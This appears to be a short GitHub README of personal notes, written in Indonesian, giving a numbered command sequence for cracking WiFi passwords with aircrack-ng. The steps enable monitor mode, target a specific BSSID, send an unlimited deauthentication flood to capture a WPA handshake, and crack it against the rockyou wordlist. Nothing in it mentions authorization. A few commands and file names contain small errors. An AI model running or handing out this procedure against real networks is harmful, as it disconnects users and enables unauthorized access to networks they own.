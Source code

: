 # aircrack-tutorial
buat pribadi catatan run cmd jika lupa

TUTORIAL WIFI CRACKING 

1.ip addr
2.iwconfig -mode managed
3.sudo airmon-ng check kill - mematikan semua conection
4.sudo airmon-ng start wlan0 -mode monitor
5.iwconfig - check ulang apakah sudah mode monitor
6.sudo airmon-ng - cek nama interface bisa wlan0/wlan0mon
7.sudo airodump-ng wlan0 - untuk monitor wifi tersedia (ctrl+c untuk stop scan)
8.catat bssid target contoh 98:F4:28:47:85:C8 channel 11
9.sudo airodump-ng wlan0 -d 98:F4:28:47:85:C8 - untuk show single target scan
10.sudo airodump-ng -w hack1 -c 11 --bssid 98:F4:28:47:85:C8 wlan0
11.sudo aireplay-ng --deauth 0 -a 98:F4:28:47:85:C8 wlan0 (sniff wpa hansake didapatkan)
12.ctrl + c quit all program scan berjalan 
13.buka ls folder file hack1.pap dengan wiresharks
14.cmd = wireshark hack1-01.cap
15.sudo airmon-ng stop wlan0 - monitor disable
16.cek iwconfig - mode managed lagi
17.sudo aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
18.tunggu beberapa saat aircrack mengidentifikasi sandi 

tes wifi card bisa inject
aireplay-ng -9 wlan0

iw list | grep AP$
